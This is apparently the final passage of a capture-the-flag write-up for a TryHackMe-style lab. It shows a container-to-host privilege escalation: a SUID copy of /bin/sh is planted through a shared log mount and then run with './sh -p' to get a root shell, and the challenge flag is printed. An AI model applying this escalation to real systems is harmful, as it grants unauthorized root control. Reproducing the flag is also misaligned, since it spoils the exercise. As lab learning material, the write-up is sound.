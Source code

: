 We can find the same files in `/var/log` on the host machine which we have connected to via ssh:

~~~
connor@pythonplayground:~$ ls -la /var/log
total 4312
drwxrwxr-x   9 root      syslog             4096 Dec 29 16:47 .
drwxr-xr-x  13 root      root               4096 Feb  3  2020 ..
-rw-r--r--   1 root      root              27163 May 11  2020 alternatives.log
drwxr-xr-x   2 root      root               4096 May 16  2020 apt
-rw-r-----   1 syslog    adm              187825 Dec 29 16:33 auth.log
-rw-r--r--   1 root      root              56751 Feb  3  2020 bootstrap.log

[REDACTED]
~~~

I tested this theory by creating a file in the mount point in the decker and it appeared in `/var/log`. We have root access in the docker container, which means if we create a file, it will be owned by root.

Let's go root then! First go to the docker and copy `/bin/sh` to `/mnt/log`. Then set the SUID bit:

~~~
root@playgroundweb:~# cp /bin/sh /mnt/log
root@playgroundweb:~# chmod +s /mnt/log/sh
~~~

Now we go to our host machine and our `sh` we copied is here. Just run `./sh -p` and we will switch to a root shell:

~~~
connor@pythonplayground:/var/log$ ls -la
total 4440
drwxrwxr-x   9 root      syslog             4096 Dec 29 17:01 .
drwxr-xr-x  13 root      root               4096 Feb  3  2020 ..

[REDACTED]

drwxr-xr-x   2 root      root               4096 Nov 23  2018 lxd
-rwsr-sr-x   1 root      root             129816 Dec 29 17:01 sh   <---------
-rw-r-----   1 syslog    adm             1471158 Dec 29 16:50 syslog
-rw-------   1 root      root              64064 May 11  2020 tallylog
drwxr-x---   2 root      adm                4096 May 11  2020 unattended-upgrades
-rw-rw-r--   1 root      utmp              47616 Dec 29 16:20 wtmp
connor@pythonplayground:/var/log$ ./sh -p
# id
uid=1000(connor) gid=1000(connor) euid=0(root) egid=0(root) groups=0(root),1000(connor)
~~~

## Flag 3

Now we can head to `/root` on the host machine and read the final flag:

~~~
# cd /root
# cat flag3.txt	
THM{be3adc69c25ad14eb79da4eb57925ad1}
~~~

Flag 3: `THM{be3adc69c25ad14eb79da4eb57925ad1}`

# D0N3! ; )

Thanks to the creator(s) of this challenging room!

Hope you had fun like I did and learned something.

Have a g00d 0ne! : )